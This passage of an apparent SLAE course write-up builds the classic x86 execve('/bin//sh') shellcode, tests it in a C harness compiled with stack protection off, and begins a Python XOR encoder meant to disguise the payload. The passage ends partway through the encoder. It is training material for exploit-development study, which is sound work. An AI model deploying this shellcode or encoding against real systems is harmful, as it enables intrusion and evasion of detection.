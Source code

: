 Let me go ahead and compile it

```
nasm -f elf32 execve-stack.nasm
ld -o execve-stack execve-stack.o
```

Now, let me go ahead and extract the shellcode from this

```
$ shellcode-dump.sh execve-stack
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Let's verify that shellcode works

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

```
osboxes@osboxes:~/SLAE-Code/Shellcode/XOR-Encoder$ ./shellcode 
Shellcode Length:  25
$ 
```

Now what we need to do is `xor` the original shellcode with `0xAA` by
byte. So what I've done is I've written very simple python script
`XOR-encoder.py` where I can paste the shellcode

```py
#!/usr/bin/env python2

#Python XOR encoder

shellcode=""

encoded=""
encoded2=""

for x in bytearray(shellcode):
	#XOR encoding
	y = x^0xAA
	encoded += '\\x'
	encoded += '%02x' % y
	
	encoded2 += '0x'
	encoded2 += '%02x,' %y

```